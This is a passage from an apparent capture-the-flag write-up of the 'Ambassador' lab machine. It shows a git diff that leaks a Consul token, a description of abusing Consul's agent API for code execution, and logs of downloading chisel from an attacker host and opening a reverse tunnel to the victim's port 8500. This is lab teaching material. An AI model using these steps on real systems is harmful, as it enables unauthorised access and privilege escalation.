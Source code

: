 ```shell
Date:   Sun Mar 13 22:44:11 2022 +0000

    .gitignore
developer@ambassador:/opt/my-app$ git diff c982db8eff6f10f8f3a7d802f79f2705e7a21b55
diff --git a/whackywidget/put-config-in-consul.sh b/whackywidget/put-config-in-consul.sh
index 35c08f6..fc51ec0 100755
--- a/whackywidget/put-config-in-consul.sh
+++ b/whackywidget/put-config-in-consul.sh
@@ -1,4 +1,4 @@
 # We use Consul for application config in production, this script will help set the correct values for the app
-# Export MYSQL_PASSWORD before running
+# Export MYSQL_PASSWORD and CONSUL_HTTP_TOKEN before running

-consul kv put --token bb03b43b-1d81-d62b-24b5-39540ee469b5 whackywidget/db/MySQL_pw $MYSQL_PASSWORD
+consul kv put whackywidget/db/MySQL_pw $MYSQL_PASSWORD
```

This app is suing consul which is a fairly complex software to connect various systems. By searching on the internet for ways to privesc with consul the exploitdb page comes up, It also says the exploit is available in metasploit. This exploit works by making a request to the API running on port 8500, then we execute code sending a PUT request to `/v1/agent/check/register`.

However, we can't execute metasploit in the ambassador machine so we need to do port forwarding first. Thus we need to get chisel to the victim's machine and then proceed with the port forwarding


```shell
[dasor@archlinux ~/hacking_tools]$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
...
developer@ambassador:/dev/shm$ wget 10.10.14.175:8000/chisel
--2023-01-18 19:37:19--  http://10.10.14.175:8000/chisel
Connecting to 10.10.14.175:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 14438400 (14M) [application/octet-stream]
Saving to: ‘chisel’

chisel                           100%[==========================================================>]  13.77M  6.81MB/s    in 2.0s

2023-01-18 19:37:21 (6.81 MB/s) - ‘chisel’ saved [14438400/14438400]
```

Now let's run it

```shell
[dasor@archlinux ~/hacking_tools]$ ./chisel server -p 7777 --reverse
2023/01/18 20:39:11 server: Reverse tunnelling enabled
2023/01/18 20:39:11 server: Fingerprint Bydycy1BjfpGYuZSEugEcvtxFge0yrgH1FY9C/i0KMg=
2023/01/18 20:39:11 server: Listening on http://0.0.0.0:7777
...
developer@ambassador:/dev/shm$ ./chisel client 10.10.14.175:7777 R:8500:127.0.0.1:8500
2023/01/18 19:39:31 client: Connecting to ws://10.10.14.175:7777
2023/01/18 19:39:31 client: Connected (Latency 45.659552ms)
```

